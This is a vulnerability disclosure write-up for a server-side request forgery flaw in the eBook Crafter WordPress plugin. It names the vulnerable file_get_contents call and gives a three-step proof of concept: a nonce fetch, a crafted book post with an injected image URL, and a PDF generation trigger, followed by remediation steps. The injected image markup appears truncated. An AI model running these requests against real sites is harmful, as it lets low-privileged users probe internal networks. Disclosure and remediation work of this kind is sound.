

# SSRF via PDF Generation in eBook Crafter WordPress Plugin

**Plugin:** eBook Crafter  
**Version Tested:** 1.0.2  
**Vulnerability Type:** Server-Side Request Forgery (SSRF)  
**Required Role:** Contributor (authenticated)  
**Research Status:** Independent discovery, duplicate of a prior submission  
**Researcher:** Mustafa Salha  

---

## Overview

During independent security research on the eBook Crafter WordPress plugin, I identified a Server-Side Request Forgery vulnerability that allows a low-privileged Contributor user to make the WordPress server issue HTTP requests to arbitrary internal or external destinations.

The attack is triggered through the plugin's PDF generation feature, which processes image URLs with no validation, making it possible to point the server at anything, including internal services that are not reachable from the outside.

This was an independent find. A separate researcher submitted the same vulnerability before me, so no CVE was assigned to this report. The research and PoC are published here for transparency and learning purposes.

---

## Root Cause

The vulnerability is in `includes/PDF/BlockRenderer.php` inside `create_image_data_uri()`:

```php
$imageData = @file_get_contents($imageUrl);
```

No URL validation. No scheme check. No allowlist. The function takes whatever URL is in the image tag and fetches it directly from the server - one line, zero protection.

---

## Impact

- A Contributor-level user can make the server issue HTTP/DNS requests to any destination
- Internal network services not exposed externally are reachable from the server
- Confirmed externally via OOB interaction, DNS and HTTP callbacks received
- Confirmed internally, server reached a service only accessible from inside its own network
- No admin interaction required after account creation

---

## Proof of Concept

### 1 - Authenticate as Contributor and retrieve a valid nonce

```bash
curl -s -b cookies.txt \
  -H "User-Agent: Mozilla/5.0 ..." \
  "http://TARGET/wp-admin/admin-ajax.php?action=rest-nonce"
```

### 2 - Create a malicious eBook with an injected image URL

```http
POST /wp-json/wp/v2/ebookcrafter_book
Content-Type: application/json
X-WP-Nonce: <nonce>

{
  "title": "SSRF PoC",
  "content": "<!-- wp:image --><figure class=\"wp-block-image\">/ssrf-poc\"/></figure><!-- /wp:image -->",
  "status": "pending"
}
```

### 3 - Trigger PDF generation to fire the SSRF

```http
POST /wp-json/ebookcrafter/v1/generate-pdf
Content-Type: application/json
X-WP-Nonce: <nonce>

{
  "post_id": <book_id>
}
```

During PDF generation, the server fetches the injected URL server-side - SSRF confirmed.

### 4 - Confirmed results

- **External:** DNS and HTTP callbacks received on OOB listener
- **Internal:** HTTP request confirmed hitting an internal service unreachable from outside the server's network

---

## Remediation

- Replace `file_get_contents()` with WordPress's `wp_safe_remote_get()`
- Validate and allowlist URL schemes (`http`, `https` only)
- Block requests to private and internal IP ranges
- Restrict image sources to trusted domains where possible

---

## Notes

I discovered this vulnerability independently through manual code review and WhiteBox testing. The duplicate submission confirms the issue is real and was a valid find, just not the first report. The full PoC, OOB confirmation, and internal SSRF validation were completed before the duplicate was known.

---

## Researcher

**Mustafa Salha**  
Penetration Tester | Abu Dhabi, UAE  
LinkedIn: https://www.linkedin.com/in/mustafasalha/
